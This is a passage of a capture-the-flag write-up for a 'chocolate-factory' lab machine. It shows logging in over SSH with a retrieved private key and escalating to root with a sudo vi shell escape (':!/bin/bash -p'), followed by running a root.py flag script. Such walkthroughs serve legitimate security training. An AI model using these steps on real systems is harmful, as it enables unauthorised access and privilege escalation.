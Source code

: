 We cannot access the user.txt flag, but we can get the ssh private key. Get it back to your machine (I just used `cat` and literally copied the output to a file `id_rsa`) and then:
```sh
$ chmod 600 id_rsa 
$ ssh charlie@$IP -i id_rsa 
```

And bang we are charlie! Get your flag and time to look at privesc.

## Privesc

Run `id` and we get the following output:
```bash
charlie@chocolate-factory:/home/charlie$ id
uid=1000(charlie) gid=1000(charley) groups=1000(charley),0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
Cool! We are in the sudoers group, run `sudo -l` to see what we can run:
```bash
charlie@chocolate-factory:/home/charlie$ sudo -l 
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```
Even better, this is an easy privesc! We can run `vi` as sudo, and `vi` has the function to run bash commands from inside the program. 

Do the following:
```
$ sudo vi

// press ESC and then type ':!/bin/bash -p'
```
Shebalabung, root! Now what?

## root.py

Cool, we have a function, run it! 
`python root.py`
```
Enter the key: 
```
Now, make sure to input the key in this format: `b'KEY'` and get your flag :)

